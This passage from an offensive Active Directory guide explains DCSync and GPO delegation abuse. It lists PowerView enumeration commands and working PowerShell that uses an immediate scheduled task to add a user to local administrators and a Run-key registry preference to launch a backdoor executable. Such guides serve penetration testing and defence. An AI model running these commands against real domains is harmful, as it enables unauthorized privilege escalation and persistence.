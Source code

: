 The DCSync attack leverages specific replication permissions on the domain to mimic a Domain Controller and synchronize data, including user credentials. This powerful technique requires permissions like `DS-Replication-Get-Changes`, allowing attackers to extract sensitive information from the AD environment without direct access to a Domain Controller. [**Learn more about the DCSync attack here.**](../dcsync.md)

## GPO Delegation <a href="#gpo-delegation" id="gpo-delegation"></a>

### GPO Delegation

Delegated access to manage Group Policy Objects (GPOs) can present significant security risks. For instance, if a user such as `offense\spotless` is delegated GPO management rights, they may have privileges like **WriteProperty**, **WriteDacl**, and **WriteOwner**. These permissions can be abused for malicious purposes, as identified using PowerView: `bash Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}`

### Enumerate GPO Permissions

To identify misconfigured GPOs, PowerSploit's cmdlets can be chained together. This allows for the discovery of GPOs that a specific user has permissions to manage: `powershell Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}`

**Computers with a Given Policy Applied**: It's possible to resolve which computers a specific GPO applies to, helping understand the scope of potential impact. `powershell Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}`

**Policies Applied to a Given Computer**: To see what policies are applied to a particular computer, commands like `Get-DomainGPO` can be utilized.

**OUs with a Given Policy Applied**: Identifying organizational units (OUs) affected by a given policy can be done using `Get-DomainOU`.

### Abuse GPO - New-GPOImmediateTask

Misconfigured GPOs can be exploited to execute code, for example, by creating an immediate scheduled task. This can be done to add a user to the local administrators group on affected machines, significantly elevating privileges:

```powershell
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```

### GroupPolicy module - Abuse GPO

The GroupPolicy module, if installed, allows for the creation and linking of new GPOs, and setting preferences such as registry values to execute backdoors on affected computers. This method requires the GPO to be updated and a user to log in to the computer for execution:

```powershell
New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"
Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString
```

